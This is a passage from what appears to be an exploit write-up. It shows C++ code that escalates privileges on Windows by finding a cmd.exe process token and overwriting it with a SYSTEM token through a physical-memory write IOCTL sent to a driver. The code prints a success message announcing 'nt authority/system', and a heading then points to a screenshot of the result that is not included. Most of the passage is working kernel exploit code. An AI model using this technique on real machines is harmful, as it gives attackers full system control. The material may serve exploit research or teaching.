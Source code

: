 ```cpp

    INT64 start_address = cmd_token_address;
    cout << "[>] cmd.exe token located at: " << hex << start_address << "\n";
    INT64 new_token_val = system_tokens.token_value[0];
    cout << "[>] Overwriting token with value: " << hex << new_token_val << "\n";

    memcpy(cmd_page_buff, results, modulus);
    memcpy(cmd_page_buff + modulus, (void*)&new_token_val, 0x8);

    // PhysicalAddress
    // NumberOfBytes
    // Buffer to be copied into system space
    BYTE input[0x1000] = { 0 };
    memcpy(input, (void*)&cmd_page, 0x8);
    memcpy(input + 0x8, (void*)&num_of_bytes, 0x4);
    memcpy(input + 0xc, cmd_page_buff, modulus + 0x8);

    if (DeviceIoControl(
        hFile,
        WRITE_IOCTL,
        input,
        modulus + 0x8 + 0xc,
        NULL,
        0,
        &bytes_ret,
        NULL))
    {
        cout << "[>] Write operation succeeded, you should be nt authority/system\n";
    }
    else {
        cout << "[!] Write operation failed, exiting...\n";
        exit(1);
    }
```

## Final Results
You can see the mandatory full exploit screenshot below:
